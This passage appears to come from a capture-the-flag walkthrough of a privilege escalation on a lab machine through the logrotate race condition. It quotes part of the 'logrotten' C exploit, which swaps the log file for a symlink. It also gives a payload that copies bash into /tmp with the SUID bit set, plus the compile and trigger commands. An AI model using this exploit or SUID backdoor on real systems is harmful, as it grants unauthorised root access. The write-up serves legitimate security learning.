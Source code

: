 So according to the article, Logrotate uses Race-Condition when multiple threads try to access shared data. Since logrotate was running for keeping the loggings of action by the root user, and the log directory path which was `/home/reader/backups/access.log`, what we had to do was, since logrotate had a number of race condition bugs previously reported to it, all we had to do is do a symlink, create a systematic link between files so that the file we created(Payload) should be provided as a systematic link to that of the ones we had access to, in our case `access.log`.

The logrotten exploit is a POC that exploit the race condition:-

```
while(1)
{
  i=0;
  length = read( fd, buffer, EVENT_BUF_LEN ); 
 
  while (i < length) {     
      struct inotify_event *event = ( struct inotify_event * ) &buffer[ i ];     if ( event->len ) {
      if ( event->mask & IN_MOVED_FROM ) {
      if(strcmp(event->name,p) == 0)
      {
            /* printf( "Something is moved %s.\n", event->name ); */
            rename(logpath,logpath2);
            symlink(targetdir,logpath);
        sleep(1);
        source = fopen(payloadfile, "r");        
        if(source == NULL)
            exit(EXIT_FAILURE);
```

It creates a symlink, to that of payload file, for example:- Payload:

```
if [ `id -u` -eq 0 ]; then (cp /bin/bash /tmp;chmod 4755 /tmp/bash);
fi
```

Compile:

```
gcc -o logrotten logrotten.c
```

I compiled it in my machine and uploaded. To run that exploit we need to give the log file path which is `/home/reader/backups/access.log`, Let’s run the exploit.

Now we need to wait for logrotate to `access.log` the actions, I did that by `echo "Give me Root" > access.log`
